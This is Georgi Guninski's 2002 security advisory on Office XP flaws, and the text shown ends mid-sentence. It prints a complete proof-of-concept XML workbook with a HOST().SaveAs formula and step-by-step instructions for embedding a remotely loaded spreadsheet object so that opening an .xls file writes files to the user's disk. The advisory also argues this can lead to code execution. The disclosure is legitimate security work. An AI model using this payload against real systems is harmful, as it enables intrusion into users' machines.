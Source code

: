 | | cyrillic logo  [Home](index.html)  **Security**  [Internet Explorer](browsers.html)  [Windows 2000](win2k.html)  [AIX](exploit.html)  [Netscape](netscape.html)  [Misc](misc.html)  **Other**  [Links](greets.html)  [Services](me.html)  [In the news](menews.html)  **Contact**  guninski@guninski.com | Georgi Guninski security advisory #53, 2002  More Office XP problems  Systems affected: Office XP  Risk: High Date: 31 March 2002 Updated: 3 April 2002 (check corrections, 3 is added) Updated: 28 April 2002 (check corrections, 4 is added)  Legal Notice: This Advisory is Copyright (c) 2002 Georgi Guninski. You may distribute it unmodified. You may not modify it and distribute it or distribute parts of it without the author's written permission. If you want to link to this content use the URL:  [http://www.guninski.com/m$oxp-2.html](http://www.guninski.com/m%24oxp-2.html)   Disclaimer: The information in this advisory is believed to be true though it may be false. The opinions expressed in this advisory and program are my own and not of any company. The usual standard disclaimer applies, especially the fact that Georgi Guninski is not liable for any damages caused by direct or  indirect use of the information or functionality provided by this advisory or program. Georgi Guninski bears no responsibility for content or misuse of this advisory or program or any derivatives thereof.  Corrections: (made on 28 April 2002) microsoft released a security bulletin MS02-021 which resolves part of the vulnerabilities described in this advisory (versions 1 and 2). They fixed it over month and 1 week after I reported it to them. Their patch fixes only the Outlook and Word issues and does not fix at least the exploit path thru Excel (other office malware? ) so users should not have too much false sense of security. As I pointed on bugtraq in reply to posts which claimed this is only word issue:  <http://online.securityfocus.com/archive/1/266084>  > While this will prevent the reply/forward issue, it won't > help if one receives and opens .doc or .xls attachment > with the bug, will it?  Let me discuss the .xls issue. It is quite similar to the .doc issue, not to say it is the same. It is possible to embed active content in a .xls file the same way it is done in .doc or in outlook reply/forward.  How to reproduce:  1. Put the following file empt4.xml on an accessible web server, say at: http://msux/empt4.xml ---empt4.xml----- <?xml version="1.0"?> <Workbook xmlns="urn:schemas-microsoft-com:office:spreadsheet"  xmlns:o="urn:schemas-microsoft-com:office:office"  xmlns:x="urn:schemas-microsoft-com:office:excel"  xmlns:ss="urn:schemas-microsoft-com:office:spreadsheet"  xmlns:html="http://www.w3.org/TR/REC-html40">  <DocumentProperties xmlns="urn:schemas-microsoft-com:office:office">   <Version>10.2625</Version>  </DocumentProperties>  <OfficeDocumentSettings xmlns="urn:schemas-microsoft-com:office:office">   <DownloadComponents/>   <LocationOfComponents HRef="file:///E:\"/>  </OfficeDocumentSettings>  <ExcelWorkbook xmlns="urn:schemas-microsoft-com:office:excel">   <WindowHeight>9150</WindowHeight>   <WindowWidth>11100</WindowWidth>   <WindowTopX>720</WindowTopX>   <WindowTopY>255</WindowTopY>   <ProtectStructure>False</ProtectStructure>   <ProtectWindows>False</ProtectWindows>  </ExcelWorkbook>  <Styles>   <Style ss:ID="Default" ss:Name="Normal">    <Alignment ss:Vertical="Bottom"/>    <Borders/>    <Font/>    <Interior/>    <NumberFormat/>    <Protection/>   </Style>  </Styles>  <Worksheet ss:Name="Sheet1">   <Table ss:ExpandedColumnCount="1" ss:ExpandedRowCount="1" x:FullColumns="1"    x:FullRows="1">    <Row>     <Cell ss:Formula='=HOST().SaveAs("C:\MSUX")'><Data ss:Type="Error">#NAME?     </Data></Cell>    </Row>   </Table>   <WorksheetOptions xmlns="urn:schemas-microsoft-com:office:excel">    <Selected/>    <ProtectObjects>False</ProtectObjects>    <ProtectScenarios>False</ProtectScenarios>   </WorksheetOptions>  </Worksheet>  <Worksheet ss:Name="Sheet2">   <WorksheetOptions xmlns="urn:schemas-microsoft-com:office:excel">    <ProtectObjects>False</ProtectObjects>    <ProtectScenarios>False</ProtectScenarios>   </WorksheetOptions>  </Worksheet>  <Worksheet ss:Name="Sheet3">   <WorksheetOptions xmlns="urn:schemas-microsoft-com:office:excel">    <ProtectObjects>False</ProtectObjects>    <ProtectScenarios>False</ProtectScenarios>   </WorksheetOptions>  </Worksheet> </Workbook> -----------------  Verify it is there by accessing the above url. 2. Create a new .xls file - say a.xls. 3. Insert in it object of type "Microsoft Office Spreadsheet 10.0" (you need to show the appropriate toolbar to do this) 4. Right click on the object -> properties 5. Click on the XMLURL property and type: http://msux/empt4.xml (you need to change the web server name from msux) 6. A dialog box is shown claiming a file exist, this is normal,click yes. 7. In Excel choose Save As... c:\b.xls 8. Exit Excel 9. At this point in c:\ you have b.xls and MSUX.xls. Move MSUX.xls anywhere. 10. Open c:\b.xls - it again will claim MSUX.xls exists. Does not matter. 11. For me Excel crashed - this does not matter. 12. At this point you have C:\MSUX.xls again - obviously it is created by b.xls (it may also be created by itself)  Question: Can someone please tell me in which dll  Microsoft Office Spreadsheet 10.0 is located? (I want to keep it for some reasons)  Corrections: (made on 3 April 2002)  At <http://www.idg.net/ic_840081_1794_9-10000.html> is written: -----------------  *As for the second vulnerability, Microsoft said it does "not as yet have a work-around for the second issue, but note that even in the worst case it could only be used to create files -- not to execute them or take any other action on the user's computer."* -----------------  I don't agree with this statement - execution of code in this case is easy. I am waiting for a official reply from them. The following